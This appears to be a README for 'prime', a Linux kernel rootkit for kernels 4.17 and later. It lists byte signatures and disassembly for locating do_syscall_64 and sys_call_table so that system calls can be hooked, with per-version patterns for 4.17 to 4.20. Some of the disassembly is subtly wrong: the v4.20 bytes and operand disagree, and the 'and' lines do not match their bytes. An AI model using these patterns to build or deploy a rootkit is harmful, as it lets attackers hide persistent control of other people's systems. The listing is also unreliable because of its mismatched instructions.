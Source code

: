 # prime

Linux kernel rootkit for kernel version 4.17+

pattern in entry_SYSCALL_64 before do_syscall_64
```
e8 ?? ?? ?? ??  callq [offset]
```

v4.[17-20]  
```
41 57       push %r15  
45 31 ff    xor %r15d, %r15d  
48 89 c7    mov %rax, %rdi  
48 89 e6    mov %rsp, %rsi  
```
pattern in do_syscall_64 before sys_call_table
```
48 8b 04 d5 ?? ?? ?? ?? mov [offset](, %rax, 8), %rax
```

v4.17  
```
48 81 ff 4d 01 00 00  cmp $0x14d, %rdi  
48 19 c0              sbb %rax, %rax  
48 21 c7              and %rax, %rax  
```
v4.18  
```
48 81 ff 4f 01 00 00  cmp $0x14f, %rdi  
48 19 c0              sbb %rax, %rax  
48 21 c7              and %rax, %rax  
```
v4.19  
```
48 81 ff 4e 01 00 00  cmp $0x14e, %rdi  
48 19 c0              sbb %rax, %rax  
48 21 c7              and %rax, %rax  
```
v4.20
```
48 81 ff 4e 01 00 00  cmp $0x14f, %rdi  
48 19 c0              sbb %rax, %rax  
48 21 c7              and %rax %rax  
```
Offset between entry_SYSCALL_64 and native_load_gs_index

v4.[17-20]
3408

